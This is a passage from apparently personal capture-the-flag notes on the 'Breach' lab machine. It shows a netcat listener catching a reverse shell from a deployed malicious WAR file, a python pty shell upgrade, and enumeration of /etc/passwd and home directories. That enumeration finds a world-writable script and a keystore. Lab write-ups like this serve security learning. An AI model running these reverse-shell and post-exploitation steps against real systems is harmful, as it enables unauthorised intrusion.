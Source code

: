 ```bash
Saved as: pwn.war
```
![Pasted image 20210423122003.png](Pasted%20image%2020210423122003.png)
- Then we will have reverse shell

# Privesc
## reverse shell
- We've got our reverse shell from [[25 - HTTPS_M@nag3Me]], after deployment, have to click the `/pwn` link to get the reverse shell
```bash
┌──(htb㉿kali)-[~]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [192.168.110.100] from (UNKNOWN) [192.168.110.140] 43116
id
uid=104(tomcat6) gid=112(tomcat6) groups=112(tomcat6)
which python
/usr/bin/python
python -c 'import pty;pty.spawn("/bin/bash")'
tomcat6@Breach:/var/lib/tomcat6$ ^Z
[1]+  Stopped                 nc -lvnp 9001
┌──(htb㉿kali)-[~]
└─$ stty raw -echo
┌──(htb㉿kali)-[~]
nc -lvnp 9001

tomcat6@Breach:/var/lib/tomcat6$ stty rows 96 cols 116
tomcat6@Breach:/var/lib/tomcat6$ export TERM=xterm
tomcat6@Breach:/var/lib/tomcat6$ grep bash /etc/passwd
root:x:0:0:root:/root:/bin/bash
milton:x:1000:1000:Milton_Waddams,,,:/home/milton:/bin/bash
blumbergh:x:1001:1001:Bill Lumbergh,,,:/home/blumbergh:/bin/bash
```

- Check home directory
	- *1059404    4 -rwxrwxrwx   1 milton   milton        755 Jun  4  2016 ./milton/some_script.sh*
	- *1048609  112 -rw-rw-r--   1 milton   milton     111255 Jun  4  2016 ./milton/my_badge.jpg*
	- *1058616    4 -rw-rw-r--   1 milton   milton       2245 May 20  2016 ./milton/.keystore*
```bash
tomcat6@Breach:/home$ find . -ls
917505    4 drwxr-xr-x   4 root     root         4096 Jun  4  2016 .
930005    4 drwxr-xr-x   3 blumbergh blumbergh     4096 Jun 12  2016 ./blumbergh
930179    4 -rw-------   1 blumbergh blumbergh       61 Jun 12  2016 ./blumbergh/.bash_history
930007    4 -rw-r--r--   1 blumbergh blumbergh      220 Jun  4  2016 ./blumbergh/.bash_logout
930009    4 -rw-r--r--   1 blumbergh blumbergh     3637 Jun  4  2016 ./blumbergh/.bashrc
930013    4 drwx------   2 blumbergh blumbergh     4096 Jun  6  2016 ./blumbergh/.cache
find: `./blumbergh/.cache': Permission denied
930011    4 -rw-r--r--   1 blumbergh blumbergh      675 Jun  4  2016 ./blumbergh/.profile
1049078    4 drwxr-xr-x   3 milton   milton       4096 Jun  6  2016 ./milton
1048961    4 -rw-------   1 milton   milton        234 Jun 11  2016 ./milton/.bash_history
```